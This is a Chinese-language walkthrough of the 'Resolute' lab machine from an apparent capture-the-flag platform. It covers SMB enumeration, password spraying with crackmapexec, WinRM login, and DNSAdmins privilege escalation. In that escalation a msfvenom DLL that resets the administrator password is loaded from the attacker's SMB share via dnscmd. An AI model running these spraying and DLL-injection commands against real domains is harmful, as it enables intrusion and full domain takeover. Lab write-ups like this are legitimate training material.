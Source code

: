 ```yaml
---
description: Medium / 枚举 / DNSadmins提权
---
```


# ✔️ Resolute

## 建立立足点

### 信息收集

* 使用Nmap对目标系统进行开放端口扫描：

```bash
nmap -sC -sV -p- -oA resolute 10.129.176.63 --open
```

<figure><img src="../../.gitbook/assets/1 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/2 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Nmap扫描结果中已获得了目标域名：<mark style="color:red;">**megabank.local**</mark>&#x20;

<figure><img src="../../.gitbook/assets/3 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/4 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 因为没有任何Web页面的开放端口，所以直接进行针对SMB/RPC服务的一系列的匿名登录操作，看看是否可以找到些什么信息：

```bash
# 可以成功的匿名登录，但是没有任何信息返回：
smbclient -N -L 10.129.176.63
smbmap -H 10.129.176.63
nmap --script smb-vuln* -p 139,445 10.129.176.63
rpcclient 10.129.176.63
rpcclient -U '' 10.129.176.63
```

<figure><img src="../../.gitbook/assets/5 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/7 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/6 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 之前一直没啥大用的enum4linux这次表现不错，收集到了很多有用的信息，如目标上所有的用户名还有密码策略：

```bash
enum4linux 10.129.176.63
```

<figure><img src="../../.gitbook/assets/8 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/9 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
后面复盘时意识到，此处密码策略中的Account Lockout Threshold: None，这意味着可以是用密码暴破而不用担心账户被锁定，是否有意引导我进“兔子洞”？！因为本例中的所有凭证都无需暴破。
{% endhint %}

* 在enum4linux的输出结果中，就已经找到了一个有效凭证：<mark style="color:red;">**Marko Novak : Welcome123!**</mark>

<figure><img src="../../.gitbook/assets/11 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 将刚刚收集到的所有用户名全部整理成一份username.txt文件，待后续使用：

<figure><img src="../../.gitbook/assets/10 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 用Kerbrute先过一遍这个username列表，看看哪些用户名是域内有效的。29个用户名25个有效，太多了，看起来不太对，应该不是这么用的：

```bash
./kerbrute_linux_amd64 username --dc 10.129.176.63 -d megabank.local username.txt
```

<figure><img src="../../.gitbook/assets/12 (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/13 (7).png" alt=""><figcaption></figcaption></figure>

* 使用crackmapexec和刚才收集到的有效凭证登录一下目标系统的SMB服务：

```bash
crackmapexec smb 10.129.96.155 -u marko -p 'Welcome123!'
```

<figure><img src="../../.gitbook/assets/14 (6).png" alt=""><figcaption></figcaption></figure>

```bash
evil-winrm -i 10.129.96.155 -u marko -p Welcome123!
```

<figure><img src="../../.gitbook/assets/17 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 几次尝试确认自己没有输错后，发现该账户确实登录不上去，决定密码喷洒来找出是否还有其他用户账号也是用的这个密码：

```bash
crackmapexec smb 10.129.96.155 -u username.txt -p 'Welcome123!'
```

<figure><img src="../../.gitbook/assets/15 (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/16 (5).png" alt=""><figcaption></figcaption></figure>

* 找到了一个新的有效凭证：<mark style="color:red;">**melanie:Welcome123!**</mark>

### GET SHELL

* 使用evil-winrm和新的凭证登录成功：

```bash
evil-winrm -i 10.129.96.155 -u melanie -p Welcome123!
```

<figure><img src="../../.gitbook/assets/18.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/19 (1) (1).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 简单手动枚举无果后，决定上传winPEAS进行信息收集：

<figure><img src="../../.gitbook/assets/20 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/21 (1) (1).png" alt=""><figcaption></figcaption></figure>

* winPEAS也没什么收获，上传sharphound收集，用bloodhound分析：

<figure><img src="../../.gitbook/assets/22 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/23 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/24 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 至此，仍然无任何明显收获，应该是方向错了。决定从头开始枚举，列出了之前忽略掉的隐藏目录PSTranscripts：

```powershell
dir -force
```

<figure><img src="../../.gitbook/assets/25 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 找到了一个txt文件，查看后貌似是一个日志记录的文件，是关于用户ryan的：

<figure><img src="../../.gitbook/assets/27 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 同时也在这个txt文件中发现了用户<mark style="color:red;">**ryan**</mark>的登录凭证：<mark style="color:red;">**Serv3r4Admin4cc123!**</mark>

<figure><img src="../../.gitbook/assets/28 (1).png" alt=""><figcaption></figcaption></figure>

* 使用该凭证登录ryan账户后，枚举一下这个ryan的相关信息：

<figure><img src="../../.gitbook/assets/29 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/30.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/31.png" alt=""><figcaption></figcaption></figure>

* 在ryan账户下，发现了一个note.txt文档，像是一个备忘录之类的文档，没看出什么实际作用：

<figure><img src="../../.gitbook/assets/32.png" alt=""><figcaption></figcaption></figure>

### ROOT

* 至此无法再继续下去，看提示后知道此处是DNSadmins滥用导致的提权攻击，才注意到ryan账户是DNSadmins组的成员账户，而该组成员是有权向目标DNS写入文件的。
* 使用msfvenom制作一个DLL文件，其中包含了自定义的administrator的登录密码，然后在kali本地开启smbserver：

```bash
msfvenom -p windows/x64/exec cmd='net user administrator fiii123 /domain' -f dll > resolute.dll
```

<figure><img src="../../.gitbook/assets/33.png" alt=""><figcaption></figcaption></figure>

```bash
# 开启smbserver:
python3 smbserver.py share ./
```

<figure><img src="../../.gitbook/assets/35.png" alt=""><figcaption></figcaption></figure>

* 在目标系统上下载这个DLL文件，重启一下DNS服务，该DLL文件即可生效：

```bash
cmd /c dnscmd localhost /config /serverlevelplugindll \10.10.16.12\share\resolute.dll
```

<figure><img src="../../.gitbook/assets/34.png" alt=""><figcaption></figcaption></figure>

* 使用psexec.py和刚才自定义的新的administrator的密码登录后，成功ROOT：

<figure><img src="../../.gitbook/assets/36 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/37 (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例Get Shell阶段不难，常规的信息收集之后就能拿到。提权阶段涉及到了我的盲点，第一次遇到DNSadmins提权，查阅了一些提示和技术解析的文章后，成功root。

(本例机器中途重置过，因此IP地址有所改变，但不影响其利用过程和结果)
{% endhint %}



